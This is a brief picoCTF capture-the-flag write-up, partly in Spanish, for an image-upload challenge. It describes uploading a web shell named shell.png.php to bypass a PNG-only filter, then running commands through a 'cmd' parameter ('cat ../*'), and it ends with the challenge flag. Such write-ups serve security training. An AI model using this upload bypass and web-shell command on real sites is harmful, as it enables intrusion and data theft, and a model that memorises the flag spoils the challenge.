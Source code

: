 
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.


None



**Solución 1**

```

crear archivo shell.png.php

subirlo y en la ruta agregar: "shell.png.php?cmd=cat ../*"


```


## Respuesta: **picoCTF{c3rt¡fi3d_Xp3rt_tr1ckst3r_d3ac765b}**

